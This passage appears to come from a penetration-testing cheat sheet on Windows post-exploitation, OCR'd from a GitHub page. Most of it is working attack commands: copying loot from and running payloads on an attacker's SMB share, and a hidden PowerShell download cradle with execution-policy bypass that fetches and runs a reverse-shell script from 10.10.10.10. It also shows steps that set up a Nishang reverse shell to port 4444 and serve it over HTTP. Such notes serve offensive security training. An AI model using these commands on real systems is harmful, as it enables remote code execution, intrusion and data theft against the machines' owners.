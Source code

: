 - Then we can trasnfer files from the command line as if it were a normal folder:

  ```CMD
  C:\Users\Admin>dir \\192.168.0.49\smbshare 
  C:\Users\Admin>copy \\192.168.0.49\smbshare\loot.zip .
  ```

- By far the most interesting feature of the SMB Share method is that you can execute files directly over the SMB Share without copying them to the remote machine (fileless execution is so hot right now):
  `C:\Users\Admin>\\192.168.0.49\smbshare\payload.exe`

- A fancy trick I learned from IPPSec is to create a mapped drive to a remote SMB share like so:

  ```CMD
  net use y: \\192.168.0.49\smbshare  
  y: 
  dir
  ```

## Execute a remote shell dropper

Often, you can leverage PowerShell to execute a remotely hosted powershell script which contains a shell dropper (generated by the platform of your choosing).
  `CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle hidden -NonInteractive -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"`

There are also some no-so-well documented PowerShell argument shortcuts so can use things like -w rather than -WindowsStyle (handy for smaller payloads):
  `CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni -nop -i None -ex Bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"`

### Upgrading your Windows Shell

You might find that you are connected with a limited shell such as a Web shell, netcat shell or Telnet connection that simply is not cutting it for you. Here are a few oneliners you can use to upgrade your shell:

### Upgrade Shell with PowerShell Nishang

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security and post exploitation during Penetraion Tests. The scripts are written on the basis of requirement by the author during real Penetration Tests:

  ```bash
  root@kali:~/test# git clone https://github.com/samratashok/nishang.git                                                  
  Cloning into 'nishang'...
  remote: Enumerating objects: 1612, done.
  remote: Total 1612 (delta 0), reused 0 (delta 0), pack-reused 1612
  Receiving objects: 100% (1612/1612), 5.87 MiB | 6.62 MiB/s, done.
  Resolving deltas: 100% (1010/1010), done.
  root@kali:~/test# cd nishang/
  root@kali:~/test/nishang# cd Shells/
  root@kali:~/test/nishang/Shells# echo Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 >> Invoke-PowerShellTcp.ps1
  root@kali:~/test/nishang/Shells# python -m SimpleHTTPServer 80
  ```
